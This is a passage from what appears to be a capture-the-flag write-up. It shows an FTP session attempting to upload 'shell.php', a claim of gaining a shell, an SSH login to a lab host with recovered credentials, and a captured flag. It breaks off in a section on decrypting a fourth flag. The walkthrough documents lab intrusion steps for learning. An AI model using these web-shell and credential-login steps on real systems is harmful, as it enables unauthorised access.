 ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24 10:55 door
226 Directory send OK.

ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create the file.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24 10:55 door
226 Directory send OK.

ftp>

```


<kbd>![alt text](test/17.png)</kbd>


> Bingoo !!!

> Got shell !!

I looked at system information and user permission. I see 2 different files which might be key !!

<kbd>![alt text](test/19.png)</kbd>


```
So, I tried ssh login
    ssh usernsctf@10.90.137.137
    password: passiron3000
but failed. !!

Then I tried again with below credentials
    ssh nsctf@10.90.137.137
    password: iron3000
And Succeed!
```

<kbd>![alt text](test/20.png)

After running common system commands I got Flag!!!


```nsctf{"Ev3ryth!ng_!5_!N_my_m!nd"}```

<kbd>![alt text](test/21.png)</kbd>





## Fourth Flag


I saw 2 files in which one was encrypted, Then I tried to look for a decryption key in another file. That the challenge was about to solve the encryption and get the flag by decrypting the flag file. 


```